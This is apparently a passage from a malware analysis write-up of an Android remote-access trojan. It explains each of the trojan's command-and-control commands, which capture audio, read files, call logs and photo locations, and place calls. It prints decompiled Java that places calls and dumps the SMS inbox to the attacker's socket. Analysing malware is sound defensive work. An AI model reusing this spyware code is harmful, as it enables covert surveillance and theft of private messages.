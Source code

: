 ### micmokmi8x
Captures audio, stores it in a temporary file named `sound.mp3` and sends it to the C2.

### DTXXTEGE3
Deletes a file from the sdcard according to the filename sent by the C2.

### Yufsssp
It opens a file from `/sdcard` based on the supplied filename by the C2. It then checks whether the exif data contains latitude and longitude information. If present, it sends the coordinates back to the C2.

### getsssspo
It opens a file from `/sdcard` based on the supplied filename by the C2. It then reads it and sends the read data to the C2.

### DXCXIXM
Creates a list of all non-hidden files present at `/sdcard/DCIM` and sends them to the C2.

### f5iledowqqww
It checks whether a file is present in `/sdcard/` based on the filename provided by the C2. It then reads the file and sends the data back to the C2.

### GExCaalsss7
![](/images/rev/ttsp/ttsp-08.png)

Reads call logs and sends the name, number, duration and call type to the C2.

### SDgex8se
Retrieves a list of files in the directory `/sdcard/<dirname>` based on the provided directory name received from the C2, and sends the name and type (file or directory) to the server.

### PHOCAs7
```java
String mspvon = MainService.this.command.substring(MainService.this.command.indexOf("PHOCAs7") + 7, MainService.this.command.indexOf("kot79"));
Intent callInteln = new Intent("android.intent.action.CALL");
callInteln.setData(Uri.parse("tel:" + mspvon));
MainService.this.startActivity(callInteln);
```
Initiates a phone call to the number supplied by the C2.

### Gxextsxms
```java
if (MainService.this.command.contains("Gxextsxms")) {
    try {
        Uri uriSMSURI = Uri.parse("content://sms/inbox");
        Cursor cur2 = MainService.this.getContentResolver().query(uriSMSURI, null, null, null, null);
        String tyiu = "";
        while (cur2.moveToNext()) {
            String address = cur2.getString(cur2.getColumnIndex("address"));
            String body = cur2.getString(cur2.getColumnIndexOrThrow("body"));
            tyiu = tyiu + address + ")@(" + body + "|";
        }
        cur2.close();
        MainService.socketOutputStream.writeBytes(tyiu + "YORRS4uyuy");
        MainService.socketOutputStream.flush();
        MainService.this.command = "";
    } catch (Exception ew7) {
        ew7.printStackTrace();
    }
```